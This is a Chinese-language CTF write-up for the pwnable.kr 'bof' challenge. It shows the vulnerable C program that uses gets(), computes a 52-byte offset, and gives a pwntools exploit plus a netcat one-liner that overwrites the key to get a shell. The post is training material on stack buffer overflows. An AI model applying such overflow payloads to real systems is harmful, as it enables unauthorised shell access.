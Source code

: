 ```yaml
---
layout: post
title: "pwnable.kr bof"
date: 2018-05-19 
tag: pwn, Writeup, pwnable.kr
---
```


先看一下给的源码

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

大概的思路就是向overflowme进行输入时溢出将key覆盖成0xcafebabe就行了。

用ida观察，我们可以知道 key(a1)在 ebp+8h, overflowme(s)在ebp-2Ch,之间有52字节，最后再加上需要覆盖的4字节就OK了。

![img_1](/images/posts/pwnable.kr_bof/img_1.png)

下面给出exp

```python
from pwn import *

p = process("bof")
# p = remote('pwnable.kr',9000)

payload = 'a'*52 + '\xbe\xba\xfe\xca'

p.sendline(payload)

p.interactive()
```

![img_2](/images/posts/pwnable.kr_bof/img_2.png)

网上还看见一个更简单的`(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000` 。

这里大家一定疑惑加`cat`干嘛。这里如果我们不加上cat那么nc在传完python的输出后就完成了这条命令，会直接结束这次会话。我们加上cat后nc的这个会话会永不结束，直到用户输入Ctrl+C。然后cat又比较特殊，它可以将用户输入原封不动返回并重定向给了nc。

![img_3](/images/posts/pwnable.kr_bof/img_3.png)